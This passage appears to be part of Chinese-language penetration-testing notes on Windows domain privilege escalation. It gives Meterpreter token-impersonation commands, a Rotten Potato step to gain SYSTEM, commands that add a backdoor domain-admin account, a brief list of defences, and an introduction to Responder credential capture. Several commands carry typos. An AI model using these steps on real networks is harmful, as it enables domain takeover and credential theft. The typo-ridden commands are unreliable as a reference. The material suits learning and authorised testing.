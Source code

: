 如果已经存在`meterpreter shell`

```sh
usr incognito  
list_tokens -u # 列出可用令牌
impersonate_token 主机名\\用户名
```

如果目标系统中存在有效的令牌，可以通过Rotten Potato，实现权限提升

```sh
upload roottenpotato.exe
excute _HC -f roottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
```

## 添加域管理员提权

```sh
# 前提获得域管理员进程
ps # 查看当前进程
migrate # 迁移到域管理员进程
shell # 进入命令行界面
net user <用户名> <密码> /ad /domain # 添加域用户
net group "domain admins" <用户名> /ad /domain # 把域用户添加到管理员组

# 当使用meterpreter的incognito模拟域管理员
add_user_<用户名> <密码> -h <主机iP> # 在域控主机添加一个账号
add_group_user "Domain admins" <用户名> -h <主机iP> # 添加到管理员组
```

## 防御方法

- 及时安装补丁
- 对令牌时效性进行限制
- 对令牌采取加密存储和多重验证保护
- 使用加密链路`SSL/TLS`传输令牌，以防止中间人窃听

# 无凭证条件下的权限获取

假设目标网络DNS服务器因故障无法服务可以使用`Responder`工具进行监听，它能够抓取网络中所有的LLMNR和NBT-NS请求并进行响应，获取最初的账户凭证

它还可以利用内置SMB、MSSQL、HTTP、HTTPS、LDAP、DNS、WPAD、FTP、POP3、LMAP、SMTP等认证服务器，收集目标计算机的凭证，还可以通过Multi-Relay功能在目标系统中执行命令















